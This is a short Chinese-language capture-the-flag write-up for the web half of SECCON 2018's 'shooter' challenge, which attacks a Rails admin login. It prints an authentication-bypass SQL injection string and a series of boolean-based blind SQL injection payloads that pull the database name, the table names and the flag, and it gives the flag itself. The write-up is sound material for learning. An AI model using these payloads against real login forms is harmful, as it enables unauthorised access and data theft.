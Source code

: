 # shooter

這題放在Reverse分類

但其實後半是Web

前半可以參考[Terrynini](https://github.com/terrynini/CTF-writeup/tree/master/SECCON-2018-quals#shooter)的writeup

<br>

後面會拿到一個登入介面的網址: http://staging.shooter.pwn.seccon.jp/admin/sessions/new

看了一下，是Rails寫的

fuzzing一波可以發現，password的地方可以Injection

塞單引號會噴Error:

![](https://i.imgur.com/modJUAC.png)

然後塞`'))) or 1=1#`可以登入成功

但裡頭沒啥有用內容

所以這邊可以用Boolean Based SQL Injection去撈撈看DB中的資料


`'))) or ((select schema_name from information_schema.schemata limit 1,1) regexp binary '^[a-z]'#`

`'))) or ((select schema_name from information_schema.schemata limit 1,1) regexp binary '^(s)[a-z]'#`

...

得到庫名: `shooter_staging`

`'))) or ((select table_name from information_schema.tables where table_schema='shooter_staging' limit 1,1) regexp binary '^[a-z]'#`

...

得到前兩張表名: `ar_internal_metadata`, `flags`

繼續深入挖`flags`，可以得到column: `id` , `value`, `created_at`, `updated_at`

`value`看起來很可疑，繼續挖:

`'))) or ((select value from shooter_staging.flags limit 0,1) regexp binary '^[A-Z]')#`

`'))) or ((select value from shooter_staging.flags limit 0,1) regexp binary '^(S)[A-Z]')#`

...

`'))) or ((select value from shooter_staging.flags limit 0,1) regexp binary '^(SECCON{)(1NV4L1D)')#`

...

得到FLAG: `SECCON{1NV4L1D_4DM1N_P4G3_4U+H3NT1C4T10N}`

